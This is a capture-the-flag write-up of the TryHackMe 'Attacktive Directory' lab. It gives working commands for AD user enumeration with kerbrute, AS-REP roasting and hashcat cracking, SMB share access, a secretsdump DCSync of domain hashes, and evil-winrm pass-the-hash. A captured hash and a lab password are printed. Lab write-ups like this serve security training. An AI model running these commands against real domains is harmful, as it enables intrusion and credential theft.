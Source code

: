 ```yaml
---
description: https://tryhackme.com/room/attacktivedirectory
---
```


# 🪟 Attacktive Directory

<figure><img src="../../../.gitbook/assets/image (445).png" alt=""><figcaption></figcaption></figure>

I found the NetBIOS-Domain Name by using **enum4linux:**

<figure><img src="../../../.gitbook/assets/image (446).png" alt=""><figcaption></figcaption></figure>

Now i need to find valid users&#x20;

so i download  kerbrute and install this one:

<figure><img src="../../../.gitbook/assets/image (447).png" alt=""><figcaption><p>don't forget to chmod +x</p></figcaption></figure>

```
./kerbrute_linux_amd64 userenum --dc 10.10.224.164 -d spookysec.local user.txt -t 50
```

* `./kerbrute_linux_amd64`: This specifies the path to the Kerbrute executable for Linux, assuming it's located in the current directory. The "\_linux\_amd64" in the filename suggests it's compiled for 64-bit Linux systems.
* `userenum`: This is the mode or subcommand of Kerbrute that is being used. In this case, it's likely used for user enumeration, which involves attempting to discover valid usernames in the Active Directory environment.
* `--dc 10.10.224.164`: This option specifies the IP address of the domain controller to target. In this example, the domain controller's IP address is 10.10.224.164.
* `-d spookysec.local`: The `-d` option is used to specify the domain name. In this case, the domain name is "spookysec.local".
* `user.txt`: This is likely a file containing a list of usernames. Kerbrute will use these usernames to attempt to enumerate valid users in the specified domain.
* `-t 50`: This option sets the number of threads to use. In this example, it's set to 50 threads, which means Kerbrute will perform user enumeration using parallel threads, potentially making the process faster.

<figure><img src="../../../.gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>

The svc-admin, backup and administrator are very important users so this might be our way in

Now we need to Steal a Kerberos TGT,&#x20;

Let's use Impacket's `GetNPUsers.py`

```
GetNPUsers.py spookysec.local/svc-admin -dc-ip 10.10.224.164 -request -format hashcat
```

<figure><img src="../../../.gitbook/assets/image (449).png" alt=""><figcaption></figcaption></figure>

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e94ae6827e3e922876329dc91b10572$33e012b155e3f4fbe8d50607bee764e51d8af206e599877f4d71b32ced3834225fbce331da2f8ee24674125a848f02852acff5d78f19fcb16863ec8e67f4401805f6e112310883b733ca924d64e3597504c57e8f1dc02f7291f96dba594e6a20d99a58763f87fd5a8a93b7b5480936e13f12c25d5e72f5e81e15d793798f4ee45e162d20f5efa398cfab0de1c2d6402ee2f21183453b8fe2f48aecf84c028fd2aefb92691dbbfa5f8651389413a3f905be82c5e388259f2099e087378bef4e1a37ec4c547e6d75a78616c835e6c62a527d8b8fafcd835ae2689ce9bfe0f0a845480bfb4d3c309d616ff7428047057485b639
```

let's put that in a hash.txt file&#x20;

and run&#x20;

```
hashcat -m 18200 -a 0 hash.txt pass.txt 
```

<figure><img src="../../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>

Now we can try to abuse the smb shares using our credentials ->

```
smbclient -L //10.10.148.44 -U svc-admin 
```

<figure><img src="../../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

to connect to the backup share that seems interesting ->

```
smbclient \\\\10.10.148.44\\backup -U 'svc-admin'
```

we found a suspicious txt folder, we need to get it on our local machine and look what's inside it with this command:

<figure><img src="../../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

I have absolutely no idea of what type of encoding this is, so i head to cyberchef and decode it with the magic recipe:

<figure><img src="../../../.gitbook/assets/image (440).png" alt=""><figcaption></figcaption></figure>

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

this format is probably : `user@domaine:Password`

Now we are going to try to retrieve all the password hashes that this user account (that is synced with the domain controller) has to offer:

```
secretsdump.py -just-dc backup:backup2517860@10.10.148.44
```

The command successfully extracted information, likely password hashes, from the domain controller located at IP address `10.10.148.44`

<figure><img src="../../../.gitbook/assets/image (441).png" alt=""><figcaption></figcaption></figure>

very successful dump&#x20;

now using evil-winRMl:

```
evil-winrm -i 10.10.148.44 -u Administrator -H [admin hash]
```

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (443).png" alt=""><figcaption></figcaption></figure>

and you just do the same for the other users, gg well done we did it boys

<figure><img src="../../../.gitbook/assets/image (444).png" alt=""><figcaption><p>tous les flags <span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>

<figure><img src="https://risibank.fr/cache/medias/0/2/261/26124/full.jpeg" alt=""><figcaption></figcaption></figure>
